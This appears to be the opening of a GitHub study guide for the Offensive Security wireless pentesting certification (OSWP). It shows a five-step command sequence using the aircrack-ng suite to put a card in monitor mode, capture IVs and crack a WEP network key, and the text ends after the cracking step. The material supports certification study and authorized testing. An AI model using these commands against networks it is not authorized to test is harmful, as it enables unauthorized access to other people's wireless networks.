 # OSWP-Study-Guide
Study guide and command sheet for Offensive Security PEN-210 course (Offensive Security Wireless Pentester - OSWP)

## WEP (Wired Equivalent Privacy)
WEP is a severely flawed security algorithm for IEEE 802.11 wireless networks. Below are the steps to exploit WEP vulnerabilities:

```bash
# Step 1: Kill conflicting processes
sudo airmon-ng check kill

# Step 2: Start monitor mode on wlan0
sudo airmon-ng start wlan0

# Step 3: Scan for WEP networks
sudo airodump-ng wlan0mon --encrypt WEP

# Step 4: Capture IVs
besside-ng -c Channel -b BSSID wlan0mon

# Step 5: Crack WEP key
aircrack-ng ./wep.cap
